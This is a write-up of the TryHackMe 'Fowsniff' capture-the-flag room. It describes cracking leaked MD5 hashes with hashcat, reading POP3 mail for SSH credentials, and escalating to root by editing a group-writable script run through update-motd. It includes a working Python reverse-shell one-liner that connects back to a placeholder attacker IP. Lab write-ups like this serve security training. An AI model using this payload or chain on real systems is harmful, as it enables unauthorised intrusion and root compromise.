




# [Fowsniff CTF](https://tryhackme.com/room/ctf) TryHackMe


`$ export IP=10.10.38.237`

Ports:
```
22 ssh
80 http
110 pop3
132 imap
```

Googling the corporation reveals that they have previously been pwned and their usernames and password hashes have been dumped for public view.
They are revealed to be MD5 hashes which I crack using hashcat
It managed to crack 8 out of the 9 passwords using the rockyou wordlist

```
$ hashcat -m 0 hashes.txt ~/wordlists/passwords/rockyou.txt | tee cracked_passwords.txt
```

Using this I can log into the pop3 server via netcat

```
$ netcat $IP 110
```
And I use to gain access into the system:


Examining the emails, we learn that the initial threat actor gained access by SQL Injection and while that server has been moved offline, they have given their ssh credentials in plaintext and that they must change it.


Seina seems to have changed hers however in the second email, she writes to a sick colleague of hers who has been sick and presumably not logged in recently...


And now we have box access! I'm sure management is going to be chewed out again...

The task indicates we should search for a group owned file which is also executable.
It is important to note that this file is executed **_by root_** evidenced by `/etc/update-motd.d/`
```
$ find / -group users -type f -executable 2>/dev/null
> /opt/cube/cube.sh
```

We can put our reverse shell code into here (the task supplied one seems to be incorrectly copied?)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
I have attached the full file, which is correctly working!

Relogging into the machine... and we now have root access!


